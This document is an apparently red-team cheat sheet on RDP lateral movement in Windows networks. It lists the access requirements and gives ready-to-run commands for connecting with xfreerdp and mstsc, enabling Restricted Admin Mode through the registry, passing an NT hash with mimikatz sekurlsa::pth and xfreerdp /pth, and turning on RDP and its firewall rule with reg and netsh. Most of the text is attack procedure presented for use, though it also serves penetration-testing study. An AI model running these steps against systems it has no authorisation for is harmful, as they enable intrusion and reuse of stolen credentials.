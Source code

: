 ```yaml
---
label: RDP
---
```


# Remote Desktop Protocol (RDP) for Lateral Movement

> **Requirements**:
>
> * Credentials (password or >not by default< NT hash) of a member of the local **Administrators** or **Remote Desktop Users** group on the target machine.
> * RDP enabled on the target machine (disabled by default on both Server and client Windows).

**RDP (3389/TCP) is not active by default**. It must be explicitly enabled. By default, if you want to connect via RDP, you need to be a **local administrator** or a member of local **Remote Desktop Users** group on the target machine. Logon via RDP is of the **Remote Interactive type** (reusable credentials are available).

Linux:

```bash
# Using password
xfreerdp /u:$user /p:$password /v:$host /d:$domain
```

Windows:

```powershell
# Open RDP connection dialog (target user's password is required)
mstsc
```

## RDP Pass-the-Hash (Restricted Admin Mode)

Generally, **Pass-the-Hash is not possible using standard remote interactive RDP logon by default**. If you try to pass the hash, you will get an error stating that "Account Restrictions are preventing this user from signing in". Hovewer, pass the hash is possible when the machine has _Restricted Admin Mode_ enabled. This mode changes the interactive RDP logon to the network logon type so user's credentials are not passed to the target machine and cannot be reused further. **It is disabled by default**.

The good news is, if you have any level of administrative access to the machine, you can enable this feature remotely and perform a pass-the-hash attack. Remember, it changes the logon type so reusable credentials are not available on the machine!

Windows:

```powershell
# Enable Restricted Admin Mode
reg add "HKLM:\System\CurrentControlSet\Control\Lsa" /f /v DisableRestrictedAdmin /t REG_DWORD /d 0

# Using NT hash
.\mimikatz.exe
> token::elevate
> sekurlsa::pth /user:$username /ntlm:$nt_hash /run:"mstsc.exe /restrictedadmin /v:$_host"
```

Linux:

```bash
# Using NT hash
xfreerdp /u:$user /pth:$nt_hash /v:$host /d:$domain
```

## Enable RDP with CMD

> **NOTE**: Windows Home doesn't have built-in RDP server. It's available on Windows Server, Pro and Enterprise editions.

If you have administrative access to the machine (e.g. via SmbExec or WinRM) you can activate RDP using CMD:

```powershell
# Enable RDP service
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Allow RDP on firewall
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

## References

* [Kali.org, _Passing the Hash with Remote Desktop_](https://www.kali.org/blog/passing-hash-remote-desktop/)
* [Microsoft, _Restricted Admin Mode for RDP in Windows_](https://learn.microsoft.com/en-us/archive/blogs/kfalde/restricted-admin-mode-for-rdp-in-windows-8-1-2012-r2)
